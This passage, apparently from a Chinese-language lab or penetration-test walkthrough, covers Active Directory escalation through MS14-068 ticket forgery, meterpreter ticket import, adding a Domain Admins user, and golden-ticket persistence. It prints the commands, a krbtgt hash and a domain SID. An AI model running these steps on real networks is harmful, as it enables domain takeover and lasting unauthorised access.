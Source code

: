 在获得的域成员的meterpreter中导入票据，就能提升为域管

```
kerberos_ticket_use /tmp/0-00000000-juan@krbtgt-DEMO.LOCAL.kirbi
```

大多数用的是exe这个工具

```
MS14-068.exe -u 域成员名@域名 -p 域成员密码 -s 域成员sid -d 域控制器地址

添加一个域管用户aaa：
net user aaa Qwe123... /add /domain
net group "Domain Admins" aaa /add /domain 
```

这段代码可以生成伪造的kerberos协议认证证书，在目标机器上利用mimikatz.exe将证书写入，从而提升为域管理员

接下来就可以使用命令了

```
dir \\主机名\c$			# 这样来列出c盘目录，需要使用主机名，而不是IP地址
```

## 权限维持

拿下域控后，看到了krbtgt的hash

![image-20231122195212828](images/60.png)

除此之外，我们还可以得到域的SID，域名称，任意用户名都知道，可以做一个黄金票据来进行权限维持

![image-20231122195537873](images/61.png)

```
SID: S-1-5-21-2015848930-1301831522-615504165-500
krbtgt: fb979da43f63a991f8f5599add59e01c
user: web2
domain: ack123.com
```
